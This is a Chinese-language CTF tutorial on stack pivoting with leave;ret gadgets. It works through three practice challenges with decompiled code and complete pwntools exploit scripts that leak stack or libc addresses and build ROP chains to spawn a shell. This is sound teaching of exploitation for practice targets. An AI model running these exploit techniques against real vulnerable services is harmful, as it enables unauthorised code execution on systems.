

栈迁移原理深入理解以及实操

* * *

# 栈迁移原理深入理解以及实操

## 前言

我们现在一般做题题目是给出很大的一块空间供我们写入栈溢出的ROP链的，但是当题目限制输入的空间比如说几个字节呢，只能覆盖到ebp,ret\_addr,这个时候就需要栈迁移这样的骚操作了，接下来我将用很通俗的语言带你们深入理解栈迁移。

## 原理

一般我们进行栈溢出攻击的时候，题目一般会给出足够大的空间写入我们的构造的ROP链，但是有一些题目会限制你的输入空间，这样的时候就是需要我们利用栈迁移将我们的栈转移到别的地方，一般是在bss段，我们可以在bss段设定一段gadget，之后将栈迁移从而getshell

栈迁移的关键在于利用leave;ret指令，这里我详细说明一下leave和ret具体是什么

leave指令即为mov esp ebp;pop ebp先将ebp赋给esp，此时esp与ebp位于了一个地址，你可以现在把它们指向的那个地址，即当成栈顶又可以当成是栈底。然后pop ebp，将**栈顶的内容**弹入ebp(此时栈顶的内容也就是ebp的内容，也就是说现在把ebp的内容赋给了ebp)

这里说明一下**ebp**和**ebp的内容**是两码事，

[](https://xzfile.aliyuncs.com/media/upload/picture/20230725214438-660a7c0c-2af1-1.png)

ebp是0xffe7a9e8，它的内容是0xffe7aa38，而这个内容也是一个地址，这个地址里面装的又是0x8059b50。ebp本身大部分时候都是一个地址（程序正常运行情况下），而ebp的内容可以是地址，也可以不是地址（程序正常运行下，ebp的内容也装的是地址，但如果你进行溢出的话，自然可以不装成地址）。

当我们pop ebp之后，由于将栈顶的内容都弹入到ebp了，那么esp也会向下移一个内存单元

下面我将用图片演示一下leave;ret的过程

[](https://xzfile.aliyuncs.com/media/upload/picture/20230725214443-691f6c22-2af1-1.png)

ret指令为pop eip，这个指令就是把栈顶的内容弹进了eip（就是下一条指令执行的地址）

[](https://xzfile.aliyuncs.com/media/upload/picture/20230725214447-6b965e16-2af1-1.png)

**为什么要利用2次leave;ret从而进行栈迁移呢？**

比如我们调用一个**Evi1s7()**函数时，也就是**eip**执行到**call Evi1s7**指令，**call** 指令以及Evi1s7函数开头的指令依次做了如下事情来「保护现场」：

*   牢记Evi1s7结束后应从哪里继续执行（保存当前 **eip**下面的位置到栈中，即 **ret**）；
*   牢记上层函数的栈底位置（保存当前 **ebp** 的内容到栈中，即为old ebp）；
*   牢记Evi1s7函数栈开始的位置（保存当前栈顶的内容到 **ebp**，便于Evi1s7函数栈内的寻址）；

当Evi1s7函数执行结束时，**eip** 即将执行 **leave** 与 **ret** 两条指令恢复现场，而由前文可知，**leave** 与 **ret** 指令则相当于完成如下事情来「恢复现场」：

*   清空当前函数栈以还原栈空间（直接移动栈顶指针 **esp** 到当前函数的栈底 **ebp** ）；
*   还原栈底（将此时 **esp** 所指的上层函数栈底 old ebp 弹入 **ebp** 寄存器内）；
*   还原执行流（将此时 **esp** 所指的上层函数调用foo时的地址弹入 **eip** 寄存器内）

当调用一个函数的时候，正常流程是像上面一样进行保护现场，之后恢复现场，一旦攻击者能篡改栈上原**old** **ebp** 内容，则能篡改 **ebp** 寄存器中的内容，从而「**有可能**」去篡改 **esp** 的内容，进而影响到 **eip**。这一流程其实就是栈迁移的核心思想。

这里为什么说是**有可能**呢，这是因为 **leave** 所代表的子指令是有先后执行顺序的，即无法先执行 **pop ebp** ，再执行 **mov esp, ebp**，因此直觉上无法先影响 **ebp** 再影响 **esp**

而且当我们将栈上 **ret** 部分覆盖为另一组 **leave** **ret**指令（gadget）的地址，即最终程序退出时会执行两次 **leave** 指令，一次 **ret** 指令。由此，当 **pop ebp** 被第一次执行后，**eip** 将指向又一条 **mov esp, ebp**指令的地址，而此时 **ebp** 寄存器的内容已变为了第一次 **pop ebp** 时，被篡改过的栈上 **ebp** 的数据。这样，**esp** 就会被「骗」到了另外的一处内存空间，从而整个函数的栈空间也完成了「迁移」。

## 栈迁移利用

首先要进行**栈溢出**将**ebp**修改为**目标地址**(也就是需要进行迁移的地址)，并且把**ret addr**填充为**leave;ret指令的地址**

接下来我会用图片以及文字进行讲解

开始执行第一个**leave;ret**，首先是确保可以栈溢出将**ebp,ret\_addr**都可以覆盖,之后将ebp修改为需要迁移到的地址(一般是我们构造好ROP链的位置)，ret\_addr修改为leave;ret的指令的地址，之后**mov esp,ebp**，esp和ebp处于同一位置，指向同一个地址，之后**pop ebp**，将栈顶的内容弹出给ebp，之后我们的ebp就来到了**目标地址**，再**ret->pop eip**，我们的**存有leave\_ret\_addr的地址**就作为返回地址存储到了**eip**中，接下来立马再次执行一次**leave;ret**

[](https://xzfile.aliyuncs.com/media/upload/picture/20230725214457-71b66e30-2af1-1.png)

第二个**leave;ret**,此时ebp和esp的位置互换了，之后再执行**mov ebp,esp**就可以将esp迁移到ebp的位置，至此我们的esp,ebp已经完全迁移到目标地址了，之后再**pop ebp**，将栈顶没用的内容弹出，此时栈顶的内容就是**system@plt**的地址了，这个时候我们再执行ret->pop eip的话，其实就是将栈顶的内容也就是(sytem@plt)弹入到eip中，我们接下来就是**执行system@plt**从而getshell

[](https://xzfile.aliyuncs.com/media/upload/picture/20230725214502-74acf9e2-2af1-1.png)

所以，经过上面的分析，我们对于栈迁移也有了一定的了解，总结一下：

*   第一次leave;ret，其实就是让ebp放入目标地址
*   第二次leave;ret，就是将esp也迁移到ebp的位置，之后pop ebp，esp指向下一个内存单元，如上图，这里esp是指向了system@plt，从而getshell

## 实例分析

### ciscn\_2019\_es\_2

#### 32位下的栈迁移,printf()的特性

**file&checksec**

[](https://xzfile.aliyuncs.com/media/upload/picture/20230725214509-78f4c034-2af1-1.png)

32位程序，开启了nx保护

**IDA静态分析**

main()

```plain
int __cdecl main(int argc, const char **argv, const char **envp)
{
  init();
  puts("Welcome, my friend. What's your name?");
  vul();
  return 0;
}
```

首先调用了一个init()函数进行了初始化缓冲区，之后输出一行字符串，之后调用vul()函数

init()

```plain
int init()
{
  setvbuf(stdin, 0, 2, 0);
  return setvbuf(stdout, 0, 2, 0);
}
```

初始化输入和输出缓冲区

vul()

```plain
int vul()
{
  char s[40]; // [esp+0h] [ebp-28h] BYREF

  memset(s, 0, 0x20u);
  read(0, s, 0x30u);
  printf("Hello, %s\n", s);
  read(0, s, 0x30u);
  return printf("Hello, %s\n", s);
}
```

这里我转义一下进制，便于理解

```plain
int vul()
{
  char s[40]; // [esp+0h] [ebp-28h] BYREF

  memset(s, 0, 32u);
  read(0, s, 48u);
  printf("Hello, %s\n", s);
  read(0, s, 48u);
  return printf("Hello, %s\n", s);
}
```

可以看到，我们对于s开辟了一个40个字节的缓冲区，但是我们read()读取时读48个字节，显然是存在栈溢出的，但是只能溢出8字节，显然是不够的，这就需要进行**栈迁移**了，而且题目给出的溢出字节正好可以覆盖ebp和ret\_addr

hack()

```plain
int hack()
{
  return system("echo flag");
}
```

直接给我们提供后门函数了，但是参数有一点问题，上述命令执行其实就是打印一个flag的字符串，所以我们需要利用**栈迁移**将echo flag修改为/bin/sh

**gdb动调**

看一下ebp和参数s的距离

到vul()步进

[](https://xzfile.aliyuncs.com/media/upload/picture/20230725214522-803b18ca-2af1-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230725214526-82809380-2af1-1.png)

上图的第一个框是参数s的地址

第二个框是main函数的ebp的地址，这里我要解释一下了，我们此时是步进入了vul()函数，此时上图显示的ebp是vul()的ebp，我们的框中的才是main()的ebp

所以我们此时知道参数s的地址了，就是**ebp\_addr-0x38**

**首先，泄露ebp的地址**

IDA分析vul()发现提供了 **printf** 这一输出函数，printf函数在输出的时候遇到’\\0‘会停止，如果我们将参数s全部填满，这样就没法在末尾补上’\\0‘，那样就会将ebp连带着输出

**之后就是布置s栈上的值**

先画一下栈帧，结合栈帧进行讲解

[](https://xzfile.aliyuncs.com/media/upload/picture/20230725214531-860c0ea8-2af1-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230725214535-886da7b0-2af1-1.png)

IDA看s的栈结构，我们构造的payload大致可以分为这7个框

*   第一个框，这里是填充的**aaaa字符串**，这里是填入的我们**前面进行gdb测试的字符串**，这里存储的第二次pop ebp的弹出的内容，为的是接下来将system@plt存储到eip中
*   第二个框，这里是存放的是**system@plt**的地址
*   第三个框，这里存放的是**system\_ret\_addr**，这里随便填充即可,这里目的主要是**维持栈的完整性**
*   第4个框，这里存放的是放置**binsh的地址**，其实通俗的理解就是放置**跳转到/bin/sh**的地址
*   第5个框，是我们**输入/bin/sh字符串之后存储**的地方，这里顺便说一下为什么要利用8个字节进行存放我们的/bin/sh，因为/bin/sh占用7个字节，一个内存空间是远远不够的，所以我们调用**2个内存空间**进行存储。
*   第6个框，是我们进行覆盖ebp的地方，我们将这里覆盖为参数s的地址，这样的话，当我们pop ebp的时候，会跳转到参数s的地址，就可以输入0x28个字节的内容，从而可以将我们的ROP链构造
*   第7个框，这里就是随便写入一个leave;ret的地址即可

Ubantu18环境，这里我用Ubantu16打的

exp:

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.log_level='debug'
context.arch='i386'

#p=remote("node4.buuoj.cn",27740)
p=process('./pwn0')
elf = ELF('./pwn0')
libc = ELF('/lib/i386-linux-gnu/libc.so.6')

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
sls     = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']
def dbg():
    gdb.attach(p,'b *$rebase(0x13aa)')
    pause()

system=0x08048400
leak('system',system)
leave_ret=0x080485FD


pl1='a'*0x27+'b'
p.send(pl1) #not sendline
p.recvuntil("b")
ebp=u32(p.recv(4))
leak('ebp',ebp)

s=ebp-0x38
binsh=ebp-0x28

pl2='aaaa'+p32(system)+p32(1)+p32(binsh)+"/bin/sh\00"
pl2=pl2.ljust(0x28,'p')

pl2+=p32(s)+p32(leave_ret)

sl(pl2)

p.interactive()
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230725214545-8de01ab6-2af1-1.png)

还是依次解释一下exp

[](https://xzfile.aliyuncs.com/media/upload/picture/20230725214635-ac1fec86-2af1-1.png)

*   第一个框，这里其实是利用**printf()的特性**，参数是%s,printf()遇到\\00会停止，如果我们将参数s都填满**(\[ebp-28h\])**，这样就不会在末尾加上\\0，ebp的地址也就泄露出来了  
    (这里顺便说一下为什么不能用sendline送出去我们的payload,因为sendline的特性最后在末尾会补充上\\00,这样的话就进行\\00截断了，就无法带出我们的ebp了)  
    (这道题目是没有开启canary的，如果开启了canary是要先泄露canary的，然后再泄露ebp)
*   第二个框，参数s距离ebp的距离是通过gdb动调看出来的，之后再看栈帧，我们输入的测试字符串距离放入binsh的内存空间是隔了3个空间的，计算一下得出是偏移4个内存空间，也就是ebp-0x28
*   第三个框，pl2就是根据上面的栈帧构造的payload，利用ljust进行填充->为的是进行栈溢出覆盖local variable，之后再覆盖ebp为目标迁移地址，也就是参数s的地址，再加上leave\_ret的地址，之后就可以写入我们的binsh,从而getshell

### gyctf\_2020\_borrowstack

#### 64位下的栈迁移&栈迁移到bss段的细节

#### 第一个read()存在溢出，第二个read()不存在溢出

**file&checksec**

[](https://xzfile.aliyuncs.com/media/upload/picture/20230725214641-af48d814-2af1-1.png)

**IDA静态分析**

main()

```plain
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[96]; // [rsp+0h] [rbp-60h] BYREF

  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  puts(&s);
  read(0, buf, 0x70uLL);
  puts("Done!You can check and use your borrow stack now!");
  read(0, &bank, 0x100uLL);
  return 0;
}
```

发现第一个read()存在溢出，只能**溢出0x10->16个字节**，也就是**64位下2个内存空间**，也就是只能溢出到**rbp和ret\_addr**

这道题思路其实挺简单的，就是利用栈迁移将栈帧迁移到处于**bss段的bank**，但是这道题目有一个坑，这其实也提醒我们之后做题的细节

```plain
发现了got表离这个bss段地址是很近的，因为我们要把栈迁移到bss段，就是可以把这个bss段给看成栈了，我们会在这个“栈”里面调用puts函数去泄露函数地址，但是调用puts的时候会开辟新的栈帧从而改变地址较低处的内容（不仅仅是got表，还有FILE *stdout和FILE *stdin），导致程序崩溃。
```

而且这一道题目也没有后门函数以及参数，肯定也涉及泄露libc基地址->我们可以利用puts()进行泄露puts的got表，之后再回到main函数，再执行两次read，输入我们的onegadget

[](https://xzfile.aliyuncs.com/media/upload/picture/20230725214647-b34229de-2af1-1.png)

小tips:有可能也看到了我的exp都用的send进行送数据，这是因为我们输入的结果是要看函数用的什么的

如果是**read函数**的话：

①只有当count的字节数大于你所输入的字节数，这个回车才不会产生任何的影响，而多出来的回车也会被当成输入数据正常存入栈中（如果输入的地址是栈的话）；

②当count字节数等于你所输入的字节数，那么最后的sendline的回车会停留在栈中（没有在缓冲区中），此时它是不正常存入，因为这个回车的缘故，已经造成了溢出；

③当count字节数小于你所输入的字节数，那么没有输入进指定地址的内容，都会停留在输入缓冲区，有可能会影响之的输入。

**但值得一提的是使用read函数，我们可以用send来发送数据，这样就可以确保万无一失**。

**如果是gets函数或者scanf函数**，我们没有办法选择，**只能使用sendline**，这两种函数只有遇见sendline发送的回车，才会停止读入。

**gets函数会清空缓冲区里的回车，而scanf则不会清空回车。因此scanf可能会因为没有清空回车的缘故，对之后的程序输入可能造成影响，但是如果gets函数溢出了数组限制的话，会异常的在输入的字符串结尾填上一个00存入栈中。此时的00也有可能会覆盖原本栈中的数据**，另外就是遇见fgets的话，也是没的选，只能用sendline

exp:

```plain
#coding=utf-8 
import os
import sys
import time
from pwn import *
from ctypes import *

context.log_level='debug'
context.arch='amd64'

p=remote("node4.buuoj.cn",26741)
elf = ELF('./pwn')
libc = ELF('./libc-2.23.so')

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
sls     = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']
def dbg():
    gdb.attach(p,'b *$rebase(0x13aa)')
    pause()

bank=0x0000000000601080
leave_ret=0x0000000000400699
main=elf.symbols['main']
leak('main',main)
rdi_addr=0x0000000000400703
rsi_addr=0x0000000000400701
puts_got=0x0000000000601018
ret_addr=0x000000000040069A

puts_plt=0x00000000004004E0
leak('puts_plt',puts_plt)
ru("Ｗelcome to Stack bank,Tell me what you want\n")
pl = 'a'*0x60+p64(bank+0xd0)+p64(leave_ret)
s(pl)
#dbg()
ru("Done!You can check and use your borrow stack now!\n")
pl2='a'*0xd0+p64(0)+p64(rdi_addr)+p64(puts_got)+p64(puts_plt)+p64(main)
s(pl2)
puts=uu64(r(6))
leak('puts',puts)

libc_base=puts-libc.symbols['puts']
leak('libc_base',libc_base)
system=libc_base+libc.symbols['system']
leak('system',system)

ru("Ｗelcome to Stack bank,Tell me what you want\n")
pl3='a'*0x60+p64(bank)+p64(leave_ret)
s(pl3)
one_gadget=libc_base+0x4526a

ru("Done!You can check and use your borrow stack now!\n")
pl4=p64(0) + p64(one_gadget) +p64(0)*10
#pl4=p64(0)+p64(rdi_addr)+p64(next(libc.search('/bin/sh\00')))+p64(system)
s(pl4)

p.interactive()
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230725214656-b8b76e2e-2af1-1.png)

继续解释一下exp

*   第一个框，这里是将栈迁移到bss段，但是得留出一段写入ROP链的地方，所以我这里是在bss段多偏移了0xc0的距离，留了很大的一块空间
*   第二个框，这里就是引用了一段gadget进行泄露puts的got表，之后再返回main()
*   第三个框，这里就是再进行一次栈迁移
*   第四个框，将我们的onegadget写入栈帧，后面的p64(0)\*7是为了保持栈的完整性

##### 后话

这里有个点需要注意，这个题目需要在exp前面加上一个 #coding=utf-8 ，不然我们ru接收不了，编码的问题

### \[Black Watch 入群题\]PWN

#### 第一个read不存在溢出，第二个read()存在溢出

**file&checksec**

[](https://xzfile.aliyuncs.com/media/upload/picture/20230725214703-bc59f65a-2af1-1.png)

**IDA静态分析**

main()

```plain
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vul_function();
  puts("GoodBye!");
  return 0;
}
```

vul\_function()

```plain
ssize_t vul_function()
{
  size_t v0; // eax
  size_t v1; // eax
  char buf[24]; // [esp+0h] [ebp-18h] BYREF

  v0 = strlen(m1);
  write(1, m1, v0);
  read(0, &s, 0x200u);
  v1 = strlen(m2);
  write(1, m2, v1);
  return read(0, buf, 0x20u);
}
```

主要漏洞点在第二个read()，其实操作和上一个题目差不多

就是在第一个read()写入我们构造的ROP链，然后第二个read()迁移到处于bss段的s地址，先泄露libc，再getshell

exp:

```plain
#coding=utf-8 
import os
import sys
import time
from pwn import *
from ctypes import *

context.log_level='debug'
context.arch='i386'

#p=process('./pwn')
p=remote("node4.buuoj.cn",27645)
elf = ELF('./pwn')
libc = ELF('./libc-2.23.so')

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sls     = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']
def dbg():
    gdb.attach(p,'b *$rebase(0x13aa)')
    pause()

puts_plt=0x08048350
puts_got=elf.got['puts']
s_addr=0x0804A300


leave_ret=0x08048542
main=0x08048513

ru('What is your name?')
pl=p32(0)+p32(puts_plt)+p32(main)+p32(puts_got)
s(pl)

ru('What do you want to say?')
pl2='a'*0x18+p32(s_addr)+p32(leave_ret)
s(pl2)

puts=uu32(r(4))
leak('puts',puts)

libcbase=puts-libc.symbols['puts']
leak('libcbase',libcbase)
system=libcbase+libc.symbols['system']
leak('system',system)
binsh=libcbase+next(libc.search('/bin/sh\00'))
leak('binsh',binsh)

ru('What is your name?')
pl3=p32(0)+p32(system)+p32(0)+p32(binsh)
s(pl3)

ru('What do you want to say?')
pl2='a'*0x18+p32(s_addr)+p32(leave_ret)
s(pl2)

p.interactive()
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230725220227-e32fe62a-2af3-1.png)
